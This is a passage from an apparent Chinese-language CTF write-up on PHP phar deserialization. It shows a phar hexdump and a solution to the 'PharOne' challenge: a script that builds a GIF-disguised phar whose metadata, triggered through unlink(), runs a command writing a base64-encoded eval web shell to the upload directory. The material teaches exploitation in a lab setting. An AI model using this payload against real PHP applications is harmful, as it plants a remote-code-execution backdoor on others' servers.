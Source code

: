 在`meta-data`部分内容以序列化形式存储。

```bash
$ xxd test.phar
00000000: 3c3f 7068 7020 5f5f 4841 4c54 5f43 4f4d  <?php __HALT_COM
00000010: 5049 4c45 5228 293b 203f 3e0d 0a49 0000  PILER(); ?>..I..
00000020: 0001 0000 0011 0000 0001 0000 0000 0013  ................
00000030: 0000 004f 3a38 3a22 416e 7943 6c61 7373  ...O:8:"AnyClass
00000040: 223a 303a 7b7d 0800 0000 7465 7374 2e74  ":0:{}....test.t
00000050: 7874 0400 0000 dbee 2a68 0400 0000 0c7e  xt......*h.....~
00000060: 7fd8 b601 0000 0000 0000 7465 7374 8b7e  ..........test.~
00000070: 036c b419 d175 41e8 8c81 e4bd 8cf3 4b6e  .l...uA.......Kn
00000080: ca61 0200 0000 4742 4d42                 .a....GBMB
```

### 例题分析



#### 例题1：[NewStarCTF 2023 公开赛道] PharOne

首页为文件上传，查看网页源代码，提示`class.php`，直接访问得源代码如下：

```php
<?php
highlight_file(__FILE__);
class Flag
{
    public $cmd;
    public function __destruct()
    {
        @exec($this->cmd);
    }
}
@unlink($_POST['file']);

```

经典反序列化题目，但是没有`unserialize()`函数。上传`phar`文件，使用`unlink`函数触发`phar://`协议。

```php
<?php
class Flag
{
    public $cmd = "echo PD9waHAgZXZhbCgkX1BPU1RbYV0pOz8+|base64 -d > upload/shell.php";
}

@unlink("test.phar"); // 删除已有文件
$phar = new Phar("test.phar"); //文件名，后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); //设置stub
$object = new Flag();
$phar->setMetadata($object); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```
